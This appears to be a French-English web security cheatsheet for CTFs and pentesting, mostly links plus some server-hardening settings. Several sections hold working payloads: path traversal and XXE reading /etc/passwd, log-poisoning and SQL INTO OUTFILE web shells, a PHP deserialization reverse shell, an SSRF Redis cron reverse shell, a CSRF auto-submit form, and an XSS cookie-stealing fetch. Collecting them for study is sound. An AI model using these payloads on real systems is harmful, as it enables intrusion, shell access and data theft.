

  ## Doc

- [OWASP Cheatsheet Series - Top 10](https://cheatsheetseries.owasp.org/IndexTopTen.html)
- [Mozilla Client Docs](https://developer.mozilla.org/en-US/doc)
- [Top 10 PortSwigger 2023](https://portswigger.net/polls/top-10-web-hacking-techniques-2023)
- https://github.com/xl7dev/BurpSuite
- https://github.com/GrrrDog/weird_proxies
- https://github.com/paragonie/awesome-appsec
- https://book.hacktricks.xyz/todo/other-web-tricks
- https://cyber.gouv.fr/publications/securiser-un-site-web

### Cheatsheets

- https://github.com/xanhacks/OffensiveWeb
- https://github.com/w181496/Web-CTF-Cheatsheet
- https://github.com/Edr4/XSS-Bypass-Filters
- https://github.com/dustyfresh/PHP-vulnerability-audit-cheatsheet
- https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet
- https://infosec.mozilla.org/guidelines/web_security#web-security-cheat-sheet
- [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Hacktricks](https://book.hacktricks.xyz/welcome/readme)
- [Hacktricks - Bypass 403](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses)
- https://www.nzeros.me/2023/08/07/securinetsminictf2k22/
- https://portswigger.net/research/listen-to-the-whispers-web-timing-attacks-that-actually-work

## Challenges

- https://portswigger.net/web-security/
- https://github.com/Learn-by-doing/xss
- https://github.com/Learn-by-doing/sql-injection

## Outils

- [Burp](https://portswigger.net/burp)
- [CloudFlair](https://github.com/christophetd/CloudFlair)
- [Commix](https://github.com/commixproject/commix)
- [Curl (cheatsheet)](https://devhints.io/curl)
- [Jwt_tool](https://github.com/ticarpi/jwt_tool)
- [Beeceptor](https://beeceptor.com/)
- [LFISuite](https://github.com/D35m0nd142/LFISuite)
- [Obfu](https://deobfuscate.relative.im/)
- [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- [Gopherus](https://github.com/tarunkant/Gopherus)
- [Nuclei](https://red-security.fr/t/tutoriel-nuclei/92)
- [RSS Validator](https://validator.w3.org/feed/)
- [Tplmap](https://github.com/epinna/tplmap)
- [XSSStrike](https://github.com/s0md3v/XSStrike)
- [Wayback machine ](https://archive.org)
- https://archive.md/

### Extensions

#### Firefox

- [Hacktools](https://addons.mozilla.org/fr/firefox/addon/hacktools/)
- [Wappalyzer](https://addons.mozilla.org/fr/firefox/addon/wappalyzer/) (**Techno discovery** : Java -> /actuator; /metrics)
- [FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) (Forwarding to **Burp Suite** (port 8080))
- [Retire.js](https://addons.mozilla.org/fr/firefox/addon/retire-js/)
- [Shodan](https://addons.mozilla.org/en-US/firefox/addon/shodan-addon/)
- https://github.com/davtur19/DotGit
- https://github.com/arthaud/git-dumper
- https://github.com/kevin-mizu/domloggerpp

#### Chrome (only)

- [Shodan](https://chromewebstore.google.com/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap)
- [Tempmail](https://chromewebstore.google.com/detail/temp-mail-disposable-temp/inojafojbhdpnehkhhfjalgjjobnhomj)

#### Burp

- [Bypass WAF](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c)
- [Hackvertor](https://github.com/hackvertor/hackvertor)
- [JWT](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6)
- [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
- [Param Miner](https://github.com/portswigger/param-miner)
- https://github.com/snoopysecurity/awesome-burp-extensions


## Encoding

- https://www.joelonsoftware.com/2003/10/08/the-absolute-minimum-every-software-developer-absolutely-positively-must-know-about-unicode-and-character-sets-no-excuses/

## API & CRUD

- https://fastapi.tiangolo.com/
- https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html
- https://en.wikipedia.org/wiki/Create,_read,_update_and_delete
- https://cloud.mongodb.com

### Web server

```
ngrok tcp 8000 #éviter http
python -m http.server 8000 #dossier adéquat
```

Accéder 

`http://X.tcp.eu.ngrok.io:port`

#### LAMP

- https://blog.orange.tw/posts/2024-08-confusion-attacks-en/
- https://www.digitalocean.com/community/tutorials/how-to-install-lamp-stack-on-ubuntu


```bash
pacman -S apache php-apache certbot-apache
sudo chown -R http:http /srv/http
```

```bash
# /etc/httpd/conf/httpd.conf
DocumentRoot "/srv/http"
Listen 8000
#Include conf/extra/httpd-userdir.conf
Include conf/vhosts/domainname1.dom
#LoadModule mpm_event_module modules/mod_mpm_event.so
LoadModule mpm_prefork_module modules/mod_mpm_prefork.so
LoadModule php_module modules/libphp.so
AddHandler php-script .php
...
<IfModule unixd_module>
User http
Group http
</IfModule>
<Files ".ht*">
    Require all denied
</Files>

ServerTokens Prod
ServerSignature Off
```

`mariadb-secure-installation`

```bash
# /etc/php/php.ini
[PHP]
extension = mysqlnd.so
extension = pdo.so
extension = pdo_mysql.so

safe_mode = On
expose_php = Off
max_execution_ime = 30
memory_limit = 8M
magic_quotes_gpc = Off
display_errors = Off

disable_functions = exec,system,popen,proc_open,passthru,fsockopen,ftp_connect,ftp_ssl_connect,dl_open,mail
enable_dl = Off
allow_url_fopen = Off
file_uploads = Off

[SQL]
sql.safe_mode = On
```

```bash
# or iptables
sudo ufw enable
sudo ufw allow 8000/tcp
```

```bash
ngrok tcp 8000
sudo systemctl restart httpd
```

- https://wiki.archlinux.org/title/Apache_HTTP_Server
- https://wiki.archlinux.org/title/MariaDB
- https://www.noip.com/ #free dns
- https://certbot.eff.org/instructions #free ssl
- https://www.linode.com/docs/guides/securing-your-lamp-stack/
- https://www.root-me.org/fr/Documentation/Reseaux/Application/Securiser-Apache

### Simple WebSite (React app + backend + db)

- https://devdocs.io/
- https://docs.docker.com/samples/react/


**Serveur**

## Broken Auth

- IDOR
- [Password Reset Poisoning](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Account%20Takeover#password-reset-feature)
- [UUID - Sandwich Attack](https://github.com/Lupin-Holmes/sandwich)

### JWT

- https://jwt.io/
- https://superuser.com/questions/1419155/generating-jwt-rs256-signature-with-openssl
- https://github.com/ticarpi/jwt_tool/wiki


### GraphQL

 - https://www.next-decision.fr/wiki/differentes-categories-api-majeures-rest-soap-graphql
 - https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/
 - https://ivangoncharov.github.io/graphql-voyager/


## Path Traversal

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md

```bash
curl -X POST "http://example.org/test.php?file=....//....//....//....//etc/passwd" -d "file=logs_existing.txt"
```

## File Inclusion

### Local & Remote File Inclusion (PHP)

- https://www.clever-age.com/owasp-local-remote-file-inclusion-lfi-rfi/
- https://humbertojunior.com.br/infosec/pentest/2021/02/16/lfi-parameters.html
- https://www.nc-lp.com/blog/disguise-phar-packages-as-images
- https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/

`Protection`: 

```php
<?php
$file = basename(realpath($_GET["filename"]));
include("pages/$file");
?>
```

et `.htaccess`

`allow_url_include = Off` pour PHP<7.4.0

### Log Poisoning

- https://bughra.dev/posts/log-poison/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/apache
- https://web.archive.org/web/20120818120202/http://www.ghostsinthestack.org/article-26-bypasser-les-htaccess-avec-limit.html

```bash
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

### XXE

- https://github.com/BuffaloWill/oxml_xxe
- https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-docx-file
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-oob-with-dtd-and-php-filter

#### Blind XXE, Exflitration Out of Band

- `generate file with oxml_xxe`
- `a.dtd content:`

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://SERVER/leak?x=%file;'>">
%eval;
%exfil;
```

### Insecure File Uploads (Techniques, Imagetragick)

- https://www.synacktiv.com/publications/playing-with-imagetragick-like-its-2016
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-docx-file

## SQLi

- https://phptherightway.com/#databases

### BEUST: Blind,Error,Union,Stacked,Time-based

- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/
- https://pentestmonkey.net/cheat-sheet/sql-injection/
- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
- https://www.invicti.com/blog/web-security/fragmented-sql-injection-attacks/
- https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/
- https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-with-sqlmap/
- https://slcyber.io/assetnote-security-research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/


`Union classic`:

```sql
' union select 0,0,0,0 #

' union select 0,0,table_name,0 from information_schema.tables #

' union select 0,0,column_name,0 from information_schema.columns where table_name='chall' #

 ' union select id, origine, message, 0 from chall #
```

### Pagination

- https://www.geeksforgeeks.org/pagination-in-sql/

```sql
' UNION SELECT username from table LIMIT 1 OFFSET X # 0||1||2 etc.. 
```

### R/W file

```sql
# Read file
UNION SELECT LOAD_FILE ("etc/passwd")-- 

# Write a file
UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/tmp/shell.php"-
```

### RCE - GCC extension

- https://pentestmonkey.net/category/tools/audit

`Protection`: [quoted & prepared statements](https://phpdelusions.net/mysqli_examples/prepared_select)

### Bypass Filters

- https://websec.wordpress.com/tag/sql-filter-bypass/
- https://johnermac.github.io/notes/ewptx/sqlievasion/
- http://pims.tuxfamily.org/blog/2011/04/write-up-sha1-is-fun-plaidctf/

## NoSQLi

- https://www.mongodb.com/community/forums/t/unrecognized-pipeline-stage-name-search/111883
- https://www.dailysecurity.fr/nosql-injections-classique-blind/

```
https://www.vulnerable.com/search?id=23277%22}},{%22$lookup%22:{%22from%22:%22flag%22,%22as%22:%22str%22,%22foreignField%22:%22flag%22,%22localField%22:%22flag
```

## SSTI

- https://cheatsheet.hackmanit.de/template-injection-table/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

## Java

### Deserialization

- https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
- https://www.synacktiv.com/publications/java-deserialization-tricks

### Log4j

- https://www.lunasec.io/docs/blog/log4j-zero-day/

## Node

- https://github.com/BlackFan/client-side-prototype-pollution
- https://www.offensiveweb.com/docs/others/prototype-pollution/

## PHP
 
```php
#https://onlinephp.io/
$a = 1;
var_dump("$a" === "".$a."");
var_dump("$a" === '$a');
```

### Bypass `disable_functions` and `open_basedir`

- https://github.com/TarlogicSecurity/Chankro

#### CGI

- https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/
- https://github.com/BorelEnzo/FuckFastcgi

`Protection`:

- https://stackoverflow.com/questions/1271899/disable-php-in-directory-including-all-sub-directories-with-htaccess

```php
#.htaccess
php_flag engine off
```

### Bypass `preg_match(" | _/")`:

- https://ctftime.org/writeup/11535

### Bypass filters

#### Php filters

- https://pwning.systems/posts/php_filter_var_shenanigans/
- https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html

#### Eval

- https://blog.csdn.net/xhy18634297976/article/details/123148026
- https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/
- https://www.defenxor.com/blog/writing-simple-php-non-alphanumeric-backdoor-to-evade-waf/

#### Extract & RCE 

- https://borelenzo.github.io/stuff/2023/10/31/hidden-in-plain-sight.html

### Type Juggling

- https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf

### Deserialization

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md
- https://www.saotn.org/exploit-php-mail-get-remote-code-execution/

```php
<?php
class Token{
    public $encode_algo="anything";
    // exploiting toString() magic method
    public $decode_algo="shell_exec";
    // using php for a stable shell
    public $msg='php${IFS}-r${IFS}\'$s=fsockopen(<IP>,<PORT>);$p=proc_open("/bin/sh",[0=>$s,1=>$s,2=>$s],$x);\'';
}
echo urlencode(serialize([new Token()]));
``` 

#### Phar 

- https://github.com/php/php-src/security/advisories/GHSA-jqcx-ccgc-xwhv

## Python

### Flask

- https://ctftime.org/writeup/36100

#### Pickle

- https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/
- https://docs.python.org/3/library/pickle.html#object.__reduce__
- https://stackoverflow.com/questions/23582489/python-pickle-protocol-choice
- https://stackoverflow.com/questions/7501947/understanding-pickling-in-python

```python
#protocol <= 2: python2, 2<protocol<=4: python3
token = base64.b64encode(pickle.dumps(Exploit(), protocol=0))
```

## Ruby

- https://github.com/SoniaDumitru/ransack-predicates

## SSRF
  - https://www.vaadata.com/blog/fr/comprendre-la-vulnerabilite-web-server-side-request-forgery-1/
  - https://www.dailysecurity.fr/server-side-request-forgery/

```bash
file://index.php
file:///etc/passwd

for i in {1..10000}; do curl -s -i http://site.org/index.php --data "url=http://localhost:$i" | grep 'Content-Length'| xargs echo "$i:"; done
dict://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/<ip>/<port> 0>\x261\n\n\n"
```

### Edge side include

- https://book.hacktricks.wiki/en/pentesting-web/server-side-inclusion-edge-side-inclusion-injection.html


--------


**Client**

## Doc - Client

- https://portswigger.net/web-security/cors
- https://seal9055.com/blog/browser/browser_architecture
- https://www.devsecurely.com/blog/2024/06/cors-the-ultimate-guide
- https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- https://nathandavison.com/blog/corsing-a-denial-of-service-via-cache-poisoning

### DOM - notions


- `document.getElementById`
- `document.innerHTML`
- `Hash (#)`: https://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_loc_hash
- `getElements` https://www.w3schools.com/js/tryit.asp?filename=tryjs_dom_getelementsbytagname

### Challenges

- https://alert.zeyu2001.com/

## Tools (Obfu)

- https://obf-io.deobfuscate.io/
- https://js.retn0.kr/





## CSRF

- https://n-pn.fr/t/1277-tout-sur-les-attack-csrf---cross-site-request-forgery
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection

```html
<form id="autosubmit" action="/api/setusername"  method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

`Protection:`

- anti-CSRF tokens
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value

```
Header Set-Cookie: mettre le scope de l'attribut SameSite = None
```

## XSS

 - https://excess-xss.com/
 - https://liveoverflow.com/do-not-use-alert-1-in-xss/
 - https://beta.hackndo.com/attaque-xss/
 - https://github.com/s0md3v/AwesomeXSS/
 - https://learn-cyber.net/article/Self-XSS-Attacks
 - https://learn-cyber.net/article/Reflected-XSS-Attacks
 - https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

```js
<script>fetch('https://<SESSION>.burpcollaborator.net/?'+document.cookie);</script>
```

### Filters bypass

 - https://javascript.info/script-async-defer
 - https://github.com/payloadbox/xss-payload-list
 - https://github.com/cure53/HTTPLeaks/tree/main
 - https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code
 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/1%20-%20XSS%20Filter%20Bypass.md

`Protection`: HTML-encode les entrées utilisateurs, CSP

#### Reflected XSS

```html
# reflection in paramter, reporting url to the bot
https://vulnerable.org?parameter=
```

#### Dom based XSS

- https://blog.cyxo.re/pwnme-2022/pimp-my-bicycle/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#dom-based-xss


### CSP

- https://csplite.com/csp320/
- https://content-security-policy.com/
- https://csp-evaluator.withgoogle.com/
- https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
- https://www.cobalt.io/blog/csp-and-bypasses
- https://chromestatus.com/feature/5735596811091968
  
rappel

```js
alert(window["docu"+"ment"]["title"])
```

Analyser les tags CSP (conserver journal,désactiver cache)


```bash
# Requête complète, headers victime
nc -nlvp 4444 

# Serveurs (ngrok tcp)
python -m http.server 4444
python -m pyftpdlib -D
```


## Client Side Path Traversal 

- https://swisskyrepo.github.io/PayloadsAllTheThings/Client%20Side%20Path%20Traversal/#cspt-to-xss
- https://swisskyrepo.github.io/PayloadsAllTheThings/Client%20Side%20Path%20Traversal/#cspt-to-csrf


## Reverse Tabnabbing

- https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing

## Browser Cache

- https://www.offensiveweb.com/docs/client-side/browser-cache/


## CSS Exfiltration

- https://github.com/hackvertor/blind-css-exfiltration


## Dom Clobbering

- https://www.offensiveweb.com/docs/client-side/dom-clobbering/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/DOM%20Clobbering


## HTTP Smuggling

- https://franso.re/fr/blog/http_rs_pour_les_nuls
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Request%20Smuggling


## Same Origin Method Execution + SelfXSS (+DQL injection)

- https://mushroom.cat/ctf/smsv2-cyctf25-web
- https://www.offensiveweb.com/docs/client-side/same-origin-method-execution/


## XS -Leaks

- https://xsleaks.dev/
